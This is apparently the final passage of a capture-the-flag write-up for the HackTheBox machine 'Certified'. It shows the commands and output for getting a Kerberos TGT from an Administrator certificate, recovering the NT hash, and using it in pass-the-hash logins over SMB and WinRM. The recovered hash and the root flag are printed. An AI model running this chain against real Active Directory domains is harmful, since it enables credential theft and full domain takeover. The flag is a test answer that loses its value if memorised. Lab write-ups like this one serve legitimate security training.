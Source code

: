 Once a .pfx file is obtained we can request the TGT:
```bash
python3 gettgtpkinit.py -cert-pfx /home/kali/administrator.pfx certified.htb/administrator user.ccache -dc-ip 10.10.11.41
2024-11-24 20:14:29,946 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-24 20:14:30,023 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-24 20:14:30,077 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-24 20:14:30,077 minikerberos INFO     b6595dc3494d6c82096318be020a103814d943db13ff8c0d132535d09f7cb612
INFO:minikerberos:b6595dc3494d6c82096318be020a103814d943db13ff8c0d132535d09f7cb612
2024-11-24 20:14:30,080 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Using the TGT we can obtain the NTLM hash:
```bash
export KRB5CCNAME=user.ccache

python3 getnthash.py -key b6595dc3494d6c82096318be020a103814d943db13ff8c0d132535d09f7cb612 certified.htb/Administrator -dc-ip 10.10.11.41
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
/tmp/pywhisker/pywhisker/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/tmp/pywhisker/pywhisker/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
0d5b49608bbce1751f708748f67e2d34
```

Verify hash:
```bash
nxc smb 10.10.11.41 -u Administrator -H "0d5b49608bbce1751f708748f67e2d34"
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\Administrator:0d5b49608bbce1751f708748f67e2d34 (Pwn3d!)
```

Authenticate over WinRM and get the flag: `049cfda432cf4554f1a34ebcebe6aa6d`
```bash
evil-winrm -i 10.10.11.41 -u Administrator -H "0d5b49608bbce1751f708748f67e2d34"
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
049cfda432cf4554f1a34ebcebe6aa6d
```


### PWNED!!!
![Pasted image 20241124132528.png](/images/Pasted image 20241124132528.png){: .normal }